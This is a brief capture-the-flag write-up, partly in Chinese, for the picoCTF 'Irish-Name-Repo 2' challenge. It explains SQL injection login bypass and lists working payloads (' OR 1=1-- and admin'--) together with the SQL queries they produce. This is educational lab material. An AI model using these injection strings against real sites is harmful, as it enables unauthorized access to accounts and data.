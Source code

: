 # Irish-Name-Repo 2

## Information

### Description

There is a website running at https://jupiter.challenges.picoctf.org/problem/53751/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

### Hints

1. The password is being filtered.

## Description

- [SQL Injection](https://en.wikipedia.org/wiki/SQL_injection)

- SQL query
    ```sql
    "SELECT * FROM customers WHERE name =' Username ' AND password = ' Password '
    ```
-  ---Password:`' OR 1=1--`---
    - 因為會檢查是否存在 SQL 指令，所以此方法會被防住。
    ```sql
    "SELECT * FROM customers WHERE name= ' Username ' AND passwors  = '' OR 1=1--'"
    ```
- Username: admin'--
    ```sql
    "SELECT * FROM customers WHERE name =' admin'-- ' AND password = ' Password '
    ```

    